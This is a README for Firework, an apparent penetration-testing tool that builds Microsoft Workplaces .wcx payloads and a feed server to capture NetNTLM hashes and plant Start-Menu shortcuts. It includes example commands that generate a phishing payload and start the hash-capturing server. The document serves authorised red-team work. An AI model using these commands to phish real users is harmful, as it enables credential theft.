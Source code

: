 # Firework

![alt text](https://img.shields.io/badge/Python-2.7_only-blue.svg "Python 2.7 only")

Firework is a proof of concept tool to interact with Microsoft Workplaces creating valid files required for the provisioning process. The tool also wraps some code from Responder to leverage its ability to capture NetNTLM hashes from a system that provisions a Workplace feed via it.

This tool may be used as part of a penetration test or red team exercise to create a .wcx payload (and associated feed) that if clicked on could be used to:

* Phish for credentials - NetNTLM hashes will be sent if a user enters their credentials (or on older versions of Windows automatically).
* Add items to the Start-Menu - After set-up shortcuts are added to the Start-Menu which launch the served RDP file(s). These entries could potentially be used as part of a wider social engineering campaign.
* Download resources - Resources such as the .rdp files and icon files are downloaded and updated by Windows on a daily basis (if authentication of the feed is disabled or is satisfied).

Read the SpiderLabs blog for a more detailed summary and walk through.

## Installation

* Tested with Python 2.7.x. (Python3 not currently supported, although the main Firework class could be used in Python 3)

```bash
$ pip install -r requirements.txt
```
* The tool serves content over HTTPS and requires a certificate and private key to use in-built web server with NetNTLM capture. Default files: ***cert.crt*** and ***key.pem***

## Usage

```

.-:::::'::::::::::..  .,::::::.::    .   .:::  ...    :::::::..    :::  .   
;;;'''' ;;;;;;;``;;;; ;;;;''''';;,  ;;  ;;;'.;;;;;;;. ;;;;``;;;;   ;;; .;;,.
[[[,,== [[[ [[[,/[[['  [[cccc  '[[, [[, [[',[[     \[[,[[[,/[[['   [[[[[/'  
`$$$"`` $$$ $$$$$$c    $$""""    Y$c$$$c$P $$$,     $$$$$$$$$c    _$$$$,    
 888    888 888b "88bo,888oo,__   "88"888  "888,_ _,88P888b "88bo,"888"88o, 
 "MM,   MMM MMMM   "W" """"YUMMM   "M "M"    "YMMMMMP" MMMM   "W"  MMM "MMP"


usage: firework.py [-h] -c COMPANY -u URL -a APP -e EXT -i ICON [-l LISTEN]
                   [-r RDP] [-d DOMAIN] [-n USERNAME] [-p PASSWORDHASH]
                   [-t CERT] [-k KEY]

WCX workplace tool

optional arguments:
  -h, --help            show this help message and exit
  -c COMPANY, --company COMPANY
                        Company name
  -u URL, --url URL     Feed URL
  -a APP, --app APP     App Name
  -e EXT, --ext EXT     App Extension
  -i ICON, --icon ICON  App Icon
  -l LISTEN, --listen LISTEN
                        TLS Web Server Port
  -r RDP, --rdp RDP     RDP Server
  -d DOMAIN, --domain DOMAIN
                        RDP Domain
  -n USERNAME, --username USERNAME
                        RDP Username
  -p PASSWORD, --password PASSWORD
                        RDP Password
  -t CERT, --cert CERT  SSL cert
  -k KEY, --key KEY     SSL key

```

## Examples

Basic example:

* Organisation Name: EvilCorp
* URL to feed XML (or URL to Firework's in-built server): https://example.org/ - This is where Windows downloads the feed from.
* Application Name: Firework
* File Extension: .fwk
* Icon File: firework.ico

```bash
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico 
```

In built web server will start on port 443 if **cert.crt** and **key.pem** are present in current directory. This will force an NTLM challenge with responder. If these files are not present the tool will write all files to local directory for your own hosting.

If you wish to start the in-built  web server on alternate port use the -l flag as below:

```bash
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico -l 8443
```

You can also add some customisations to the .rdp file that gets served.

* Remote Desktop Server: dc.corp.local
* Domain: corp.local
* Username: admin
* Password Crypt: Encrypted password that gets included in RDP file

Note: Passwords stored in .rdp files are likely ignored in a default config.

```bash
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico -r dc.corp.local -d corp.local -n admin -p <crypt password>
```

## Payload

Having run the tool 'payload.wcx' will be written to current directory. This file is what when clicked on starts the provisioning process.

## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

Firework

Created by David Middlehurst
Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments

* [Responder by Laurent Gaffie](https://github.com/SpiderLabs/Responder)
* [Firework Icon](https://icons8.com/icon/39296/firework-filled)
